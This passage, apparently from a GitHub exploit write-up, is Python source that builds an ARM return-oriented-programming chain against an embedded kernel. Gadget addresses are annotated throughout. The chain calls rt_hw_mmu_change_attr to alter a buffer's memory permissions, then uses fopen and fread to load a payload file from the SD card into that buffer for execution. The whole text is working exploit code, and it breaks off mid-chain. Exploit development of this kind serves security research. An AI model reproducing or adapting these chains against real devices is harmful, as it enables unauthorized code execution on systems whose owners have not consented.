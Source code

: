 ```
rop_chain += p32(0xc08e4ee0 + 0x40) # r11 <- we back up the address of malloc'd buffer here
rop_chain += p32(0xc0420f80) # pc

## now we call rt_hw_mmu_change_attr (r0 is our buffer address)

# | 0xc0420f80 | c0420f80 | cpy r5,r0 | c0420f84  | blx r3 | 
# | 0xc04fe360 | c04fe360 | cpy r1,r5 | c04fe364  | blx r4 | 
# | 0xc00d2838 | c00d2838 | sub r1,r1,r6 | c00d283c  | blx r8 | 
# | 0xc008f514 | cpy r2,r10 | c008f518 | blx r7 | 

# store the malloc result somewhere safe if we need it again
# | 0xc0024820 | ldmia sp!,{r4,pc} |
rop_chain += p32(0xc0583f54) # r4
rop_chain += p32(0xc0485d38) # pc

# | 0xc0485d38 | c0485d38 | str r0,[r11,#-0x40] | c0485d3c  | blx r4 | 

# | 0xc0583f54 | ldmia sp!,{r4,r5,r6,r11,pc} | 
rop_chain += p32(0xc03edf0c) # r4
rop_chain += p32(0x00000c81) # r5 <- this is the last argument of the change attr function
rop_chain += p32(0xc00d2e78) # r6
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc0533030) # pc

# | 0xc0533030 | c0533030 | cpy r3,r5 | c0533034  | blx r6 | 
# | 0xc00d2e78 | c00d2e78 | cpy r5,r9 | c00d2e7c | blx r4 | 

# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
rop_chain += p32(0xc0473224) # r4
rop_chain += p32(0xc05c1dc9) # r5 <- ffs fopen was a thumb function
rop_chain += p32(0xc075ed50) # r6 
rop_chain += p32(0xc03adfec) # r7
rop_chain += p32(0xc05f92d0) # r8 
rop_chain += p32(0xc00a3594) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc00bad9c) # pc

## now we need to open a file, and load the bytes into the buffer (called file /mnt/sdcard/test.aac)
# to call fopen("/mnt/sdcard/test.aac", "rb")
# - c05f92d0 = "rb"
# - c075ed50 = "/mnt/sdcard/test.aac"
# - c05c1dc8 = fopen

# | 0xc00bad9c | cpy r0,r6 | c00bada0 | blx r9 |   
# | 0xc00a3594 | cpy r1,r8 | c00a3598 | blx r7 |
# | 0xc03adfec | cpy r3,r5 | c03adfec | blx r4 |  

# | 0xc0473224 | blx r3 | c0473228 | ldmia sp!,{r3,r4,r5,r6,r7,r8,r9,r10,r11,pc} | <- does the function call
rop_chain += p32(0xc0426d4c) # r3 
rop_chain += p32(payload_length) # r4 <- size of the read
rop_chain += p32(0xc05c20b5) # r5 <- address of fread (its thumb)
rop_chain += p32(0xc03edf0c) # r6
rop_chain += p32(0x00000001) # r7 <- 1
rop_chain += p32(0x00000000) # r8 
rop_chain += p32(0x00000000) # r9
rop_chain += p32(0xc08e4ee0 - 0xbc4) # r10 <- stored malloc'd buffer
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc040b604) # pc

# now our opened fd is in r0, need to call fread(allocated_buffer, 1, size, stream (what is in r0 atm))
```